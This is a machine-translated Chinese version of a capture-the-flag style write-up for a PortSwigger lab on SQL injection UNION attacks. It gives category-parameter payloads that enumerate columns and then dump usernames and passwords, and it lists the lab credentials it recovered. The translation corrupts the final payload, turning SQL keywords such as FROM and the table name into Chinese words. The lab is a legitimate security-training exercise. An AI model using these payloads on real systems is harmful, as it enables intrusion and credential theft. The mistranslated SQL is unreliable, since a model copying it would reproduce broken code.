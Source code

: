 # ports wigger Web Security Academy Lab:SQL 注入联合攻击，在一列中检索多个值

> 原文：<https://infosecwriteups.com/portswigger-web-security-academy-lab-sql-injection-union-attack-retrieving-multiple-values-in-a-3f025ac94b67?source=collection_archive---------1----------------------->

在本文中，只有一列被处理为页面上的输出。作为输出，将确定屏幕上打印的列，用户名和密码将打印在相关列中。

![](img/cb9184416b02a7edbbabc8bad281149b.png)

我们记得在以前的实验中，类别参数中有 SQL 注入。

![](img/9f7703a0cae5ae21a1b14bdb7adf6652.png)

我们已经确定有如下两列。

有效负载:'+UNION+SELECT+NULL，NULL —

![](img/6e9536b545de8472337941dad6495451.png)

让我们把 cyber 这个词印在第二栏。

有效负载:'+UNION+SELECT+NULL，' siber' —

![](img/b0b92073bd64751ea4d8ec536772d219.png)

因为我们希望在屏幕上第二列中写入的表达式是用户名和密码，所以我们可以使用以下有效负载:

+UNION+SELECT+NULL，用户名| | ' ~ ' | |密码+发件人+用户—

![](img/0c42db43ae345e666e77a89174a0e52f.png)

信用:

维纳~qi6rwofv0ux0yjcecm2y

卡洛斯~lmnncl5uq0hqqdqb92do

管理员~j221x00uaz0e8rdflvmh

我们使用管理员用户的凭证登录系统。

![](img/5968861631283fa2e6f166f3e68d2f45.png)

登录系统后，我们成功完成了实验。

![](img/93cb7a85dd4ef265663a3b263dae6b74.png)

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*